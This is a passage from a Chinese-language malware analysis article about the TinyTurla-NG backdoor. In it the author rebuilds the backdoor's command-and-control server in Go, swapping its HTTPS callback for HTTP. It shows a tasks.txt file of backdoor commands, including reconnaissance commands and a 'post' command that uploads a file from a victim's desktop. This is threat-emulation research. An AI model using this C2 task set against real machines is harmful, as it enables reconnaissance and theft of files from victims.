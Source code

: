 [![](assets/1709105912-cd7a1f07daf7865d42ffdf5b44183d31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227084012-c4400e24-d508-1.png)

**由于笔者没有有效证书文件，因此笔者只能尝试模拟构建一个 HTTP 站点（将 TinyTurla-NG 新后门文件中的内置 https 外联 URL 修改为 http 外联 URL 即可实现对 HTTP 站点的访问），若大家感兴趣且手头有有效证书文件，可以尝试将代码修改为 HTTPS 站点。**

在这里，笔者将使用 golang 语言模拟构建 TinyTurla-NG 新后门 C&C 站点，详细情况如下：

代码结构如下：

[![](assets/1709105912-55d692f5efa3ba0f0cdef9436684080f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227084031-cfd28438-d508-1.png)

-   tasks.txt

```plain
rsp:timeout 1 1
rsp:ipconfig
rsp:calc.exe
rsp:dir C:\Users\admin\Desktop
rsp:post C:\Users\admin\Desktop\111.txt
rsp:whoami
```

